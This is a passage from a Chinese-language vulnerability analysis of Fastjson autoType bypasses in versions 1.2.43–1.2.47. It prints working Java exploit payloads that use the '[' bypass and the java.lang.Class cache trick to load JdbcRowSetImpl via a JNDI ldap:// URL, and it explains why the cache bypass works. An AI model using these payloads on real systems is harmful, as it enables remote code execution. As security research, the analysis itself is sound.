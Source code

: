 不仅仅 `L` 字符可以用来绕过，`[` 字符也可以绕过；所以就出现了如下EXP：

```java
/**
 * version=1.2.43
 * 使用 [ 字符绕过1.2.42的修复
 */
public static void exp5()throws Exception{
    ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
    String exp = "{\"test\":{\"@type\":\"[com.sun.rowset.JdbcRowSetImpl\"[{\"dataSourceName\":\"ldap://127.0.0.1:1389/Exploit\",\"autoCommit\":true]}}";
    JSON.parse(exp);
}
```

### 1.2.44 <= Version <= 1.2.45

从1.2.44开始，对1.2.43的漏洞进行了修复，首先看到1.2.44对1.2.43的修复：

![image-20210805133026054](/media/image-20210805133026054.png)

这个版本区间内，主要是一些黑名单绕过，所以自然也需要开启autoType。Payload后面流量分析章节中再给出。

### 1.2.46 <= Version <= 1.2.47

1.2.46主要是针对一些绕过加了一些黑名单：

![image-20210805133232417](/media/image-20210805133232417.png)

然后就出现了不需要开启autoType的绕过利用方式。首先看到payload：

```java
/**
 * 1.2.46 <= Version <= 1.2.47
 * 直接绕过autoType，无需开启autoType
 */
public static void exp7()throws Exception{
    String exp="{\"rand1\":{\"@type\":\"java.lang.Class\",\"val\":\"com.sun.rowset.JdbcRowSetImpl\"},\"rand2\":{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"ldap://localhost:1389/Object\",\"autoCommit\":true}}";
    JSON.parse(exp);
}
```

可以看到，这个payload存在两个@type。对这两个@type的解释如下：

- 第一个@type：反序列化 `java.lang.Class` 的过程中，会加载 `com.sun.rowset.JdbcRowSetImpl` 这个Class，并且加入缓存；
- 第二个@type：在没有开启autoType的情况下，可以从缓存中拿 `com.sun.rowset.JdbcRowSetImpl` 这个Class，且不经过白加黑验证，后续就是正常的反序列化攻击链的流程了。

首先我们回顾一下 `TypeUtils#loadClass` 的如下代码：

```java
try{
    ClassLoader contextClassLoader = Thread.currentThread().getContextClassLoader();
    if(contextClassLoader != null && contextClassLoader != classLoader){
        clazz = contextClassLoader.loadClass(className);
        if (cache) {
            mappings.put(className, clazz);
        }
        return clazz;
    }
} catch(Throwable e){
    // skip
}
```
